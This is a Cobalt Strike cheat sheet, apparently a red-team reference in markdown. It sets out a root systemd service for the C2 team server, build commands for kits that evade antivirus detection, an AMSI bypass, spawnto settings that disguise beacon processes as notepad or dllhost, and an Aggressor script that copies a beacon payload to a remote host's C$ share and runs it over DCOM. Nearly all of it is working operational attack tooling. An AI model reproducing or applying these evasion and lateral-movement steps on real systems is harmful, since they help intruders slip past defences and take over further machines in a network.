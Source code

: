 # Cobalt Strike Cheat-Sheet

### TeamServer service
```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

[Install]
WantedBy=multi-user.target
```

## Commands

### Bypass CLM
```
powerpick <PS COMMAND>
```

## Kits

### On-disk detections (artifact kit)
* Obfuscate EXEs and DLLs
```
 ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

### In-Memory detections (resource kit)
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

### AMSI Bypasses
* amsi_disable only applies to powerpick, execute-assembly and psinject.
```
powerpick <PS COMMAND>
```
* C2 Profile
```
post-ex {
        set amsi_disable "true";
}
```
* Check C2 profiles modifications
```
./c2lint c2-profiles/normal/webbug.profile
```

### Behaviour detections
* Change the process that cobaltstrike runs for fork&run
* Within beacon (reset with ```spawnto```)
```
spawnto x64 %windir%\sysnative\notepad.exe
spawnto x86 %windir%\syswow64\notepad.exe
```
* Change psexec spawn process
```
ak-settings spanwto_x64 C:\Windows\System32\notepad.exe
ak-settings spanwto_x86 C:\Windows\System32\notepad.exe
```
* Edit c2-profile
```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

### Mimikatz kit (Windows 11 update mimikatz)
```
./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
```

### Invoke-DCOM.cna
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```